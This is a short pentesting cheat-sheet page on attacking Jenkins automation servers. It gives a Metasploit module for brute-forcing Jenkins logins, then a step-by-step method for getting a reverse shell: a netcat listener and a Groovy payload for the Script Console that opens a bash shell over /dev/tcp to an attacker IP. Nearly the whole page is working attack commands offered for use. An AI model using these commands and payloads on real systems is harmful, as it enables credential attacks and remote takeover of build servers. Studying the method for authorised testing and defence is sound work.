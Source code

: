 ```yaml
---
title: Jenkins Pentesting
description: Jenkins is an automation server which helps automate the parts of software development related to building, testing, and deploying, etc.
tags:
    - Reverse Shell
    - Web
date: 2023-01-01
refs:
draft: false
---
```


## Brute Force Credentials

```sh
msfconsole
msf > use auxiliary/scanner/http/jenkins_login
```

<br />

## Reverse Shell on Dashboard

You need to have the credential.

1. **Opening Listener on Your Local Machine**

    ```sh
    nc -lvnp 4444
    ```

2. **Login to Jenkins**

    Access "http://localhost:8080" in browser and login.

3. **Click "Manage Jenkins" -> "Script Console"**

4. **Add the Payload in the Console**

    ```java
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/<Attacker_IP>/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    ```

5. **Click "Run"**

    Then you should get a shell.